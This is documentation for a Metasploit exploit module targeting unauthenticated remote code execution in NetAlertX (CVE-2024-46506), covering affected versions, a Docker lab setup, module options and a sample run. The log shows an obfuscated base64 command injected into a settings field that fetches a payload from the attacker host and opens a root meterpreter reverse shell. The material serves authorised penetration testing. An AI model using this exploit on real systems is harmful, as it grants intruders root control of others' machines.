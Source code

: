 ## Vulnerable Application

An attacker can update NetAlertX settings with no authentication, which results in RCE.

The vulnerability affects:

    * v23.01.14 <= NetAlertX <= v24.9.12

This module was successfully tested on:

    * NetAlertX v24.9.12 installed with Docker on Ubuntu 22.04


### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/netalertx_rce_cve_2024_46506`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### WAIT (required)
Wait time (seconds) for the payload to be set. Default is `75`.

### CLEANUP
Restore DBCLNP_CMD to original value after execution. Default is `true`.


## Scenarios
```
msf6 > use exploit/linux/http/netalertx_rce_cve_2024_46506
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > options

Module options (exploit/linux/http/netalertx_rce_cve_2024_46506):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CLEANUP  true             no        Restore DBCLNP_CMD to original value after execution
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                       loit.html
   RPORT    20211            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
   WAIT     75               yes       Wait time (seconds) for the payload to be set


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      kORFEqBmqOC      no        Name to use on remote system when storing payload; cannot contain spaces or slashe
                                                  s
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 24.9.12 detected.
[*] Sent request to update DBCLNP_CMD to '/bin/bash -c echo${IFS}d2dldCAtcU8gLi9GUXl0Y3BRYW4gaHR0cDovLzE5Mi4xNjguNTYuMTo4MDgwL0ctOGY4bmtvSDBkVFpHUHNOdlMyM2c7Y2htb2QgK3ggLi9GUXl0Y3BRYW47Li9GUXl0Y3BRYW4mc2xlZXAgNjtybSAtcmYgLi9GUXl0Y3BRYW4=|base64${IFS}-d|/bin/bash'.
[*] Waiting settings really updated...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:34292) at 2025-02-10 21:29:25 +0900
[*] Added the payload to the queue. Waiting for the payload to run...
[*] Sent request to update DBCLNP_CMD to 'python3 /app/front/plugins/db_cleanup/script.py pluginskeephistory={pluginskeephistory} hourstokeepnewdevice={hourstokeepnewdevice} daystokeepevents={daystokeepevents} pholuskeepdays={pholuskeepdays}'.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           :  (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
